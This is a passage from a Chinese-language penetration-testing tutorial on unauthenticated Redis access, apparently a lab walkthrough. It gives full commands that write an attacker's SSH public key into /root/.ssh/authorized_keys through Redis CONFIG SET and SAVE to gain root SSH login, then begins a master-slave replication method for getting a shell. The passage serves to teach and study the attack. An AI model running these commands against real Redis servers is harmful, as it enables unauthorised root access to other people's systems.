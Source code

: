 ![image-20240731151534436](https://image.201068.xyz/assets/Redis/image-20240731151534436.png)

![image-20240731151703736](https://image.201068.xyz/assets/Redis/image-20240731151703736.png)

## **Redis**未授权访问漏洞利用姿势三：利用持久化，利用公私钥认证获取root权限

### 生成ssh公钥和私钥

在攻击机（redis客户端）中生成ssh公钥和私钥，密码设置为空：

```
ssh-keygen -t rsa
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > 1.txt
cat 1.txt | redis-cli -h 192.168.70.14 -x set crack
```

![image-20240731161611762](https://image.201068.xyz/assets/Redis/image-20240731161611762.png)

![image-20240731161805212](https://image.201068.xyz/assets/Redis/image-20240731161805212.png)

### 持久化

```
redis-cli -h 192.168.70.14
config set dir /root/.ssh
config set dbfilename authorized_keys
save
quit
```

### SSH免密登录

在攻击机上使用SSH免密登录靶机，利用私钥成功登入redis服务器：

```
ssh -i /root/.ssh/id_rsa root@192.168.70.14
```

![image-20240731162116987](https://image.201068.xyz/assets/Redis/image-20240731162116987.png)

## **Redis**未授权访问漏洞利用姿势四：利用主从复制，利用攻击软件获得shell

`Redis(<=5.0.5)`

### **什么是主从复制**

redis主从复制，是指redis主机称为`master`，redis从机称为`slave`，

主机master**可读可写**，从机**只能读**，主机更新数据，从机会从主机获取更新的数据。

原理：**主机一旦更新数据 rdb文件**-----》**从机 得到rdb文件 load内存 和主机内容保持一致**

### **主从复制的实现**
